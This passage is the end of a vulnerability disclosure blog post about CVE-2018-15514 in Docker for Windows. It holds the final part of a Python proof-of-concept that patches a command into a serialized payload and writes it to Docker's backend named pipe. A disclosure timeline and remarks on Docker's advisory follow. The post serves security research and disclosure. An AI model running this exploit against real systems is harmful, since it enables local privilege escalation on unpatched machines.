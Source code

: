```python
payload += "\x65\x79\x54\x6f\x6b\x65\x6e\x3d\x62\x37\x37\x61\x35\x63\x35\x36\x31\x39\x33\x34"
payload += "\x65\x30\x38\x39\x5d\x5d\x09\x0c\x00\x00\x00\x0a\x09\x0c\x00\x00\x00\x09\x18\x00"
payload += "\x00\x00\x09\x16\x00\x00\x00\x0a\x0b"

# now we patch our payload
data = bytearray(payload)

# patch the size
data[655:655] = struct.pack(">I", len(cmd))

# patch the cmd
data[659:659] = cmd

# get the size to send
size = struct.pack("<I", len(data))

# get a handle to the NamedPipe
np = open(r'\\.\pipe\dockerBackend', 'w+b')

# exploit!
np.write(size)
np.write(data)

# clean up
np.close()
```

### Timeline

<div markdown="1" class="cn">
- 2018-03-06 – Discovered and forgotten about
- 2018-04-03 - Verified existing and sent to [iDefense's VCP](https://vcp.idefense.com/)
- 2018-04-04 - Validated and acquired by iDefense
- 2018-07-19 - Patched by Docker (without credit)
- 2018-08-18 - Docker assigned CVE-2018-15514
- 2018-08-30 - This blog post released
</div>

<p markdown="1" class="cn">You can see Docker's advisory [here](https://docs.docker.com/docker-for-windows/edge-release-notes/#docker-community-edition-18060-ce-win69-2018-07-25), but note that it's not exactly advising much. However they did obtain CVE-2018-15514 for referencing this vulnerability.</p>

{% include image.html
            img="assets/images/docker-patch.png"
            title="Poor advisory to the users of Docker for Windows"
            caption="Poor advisory to the users of Docker for Windows"
            style="width:60%;height:60%" %}

### Conclusion

<p class="cn">This bug doesn't have as high of an impact as regular LPE's due the fact that the user needs to be a member of the docker-users group. However, as shown, this is a common configuration with no official documentation regarding this security boundary.</p>


[docker]: https://www.docker.com/docker-windows
[ysoserial.net]: https://github.com/pwntester/ysoserial.net
[@tiraniddo's]: https://twitter.com/tiraniddo